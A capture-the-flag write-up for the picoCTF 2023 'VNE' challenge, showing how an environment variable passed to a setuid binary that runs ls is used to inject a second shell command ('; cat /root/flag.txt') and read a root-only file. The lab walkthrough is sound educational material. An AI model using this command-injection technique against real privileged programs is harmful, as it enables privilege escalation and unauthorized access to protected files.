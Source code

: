 # VNE

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, bash, env, injection
Author: JUNIAS BONOU

Description:
We've got a binary that can list directories as root, try it out !!

ssh to saturn.picoctf.net:61680, and run the binary named "bin" once connected. 
Login as ctf-player with the password, d8819d45
 
Hints:
1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the ls
```

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/VNE]
└─$ ssh -p 61680 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61680 ([13.59.203.175]:61680)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61680' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

And then we look for the `bin` binary mentioned in the challenge description
```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Nov  5 08:46 .
drwxr-xr-x 1 root       root          24 Aug  4 22:04 ..
drwx------ 2 ctf-player ctf-player    34 Nov  5 08:46 .cache
-rw-r--r-- 1 root       root          67 Aug  4 22:05 .profile
-rwsr-xr-x 1 root       root       18752 Aug  4 22:05 bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ 
```
Note that the `bin` binary has the [setuid](https://en.wikipedia.org/wiki/Setuid) bit set!

Ok, lets set the `SECRET_DIR` [environment variable](https://en.wikipedia.org/wiki/Environment_variable) to `/root` as suggested in the hints.

### Set the environment variable

```bash
ctf-player@pico-chall$ SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```
We can list any directory of our choice as root.  
The program probable does something like `ls $SECRET_DIR`.  
Let try to verify this
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
```
Great, we can [inject additional commands](https://en.wikipedia.org/wiki/Code_injection) in the variable to get the flag as suggested in the hints.

### Get the flag

Lets append a `cat` command and an `echo` command for easier read output
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt; cat /root/flag.txt; echo"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt; cat /root/flag.txt; echo as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
picoCTF{<REDACTED>}
ctf-player@pico-chall$ 
```

And there we have the flag.

For additional information, please see the references below.

## References

- [Wikipedia - Code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - Environment variable](https://en.wikipedia.org/wiki/Environment_variable)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
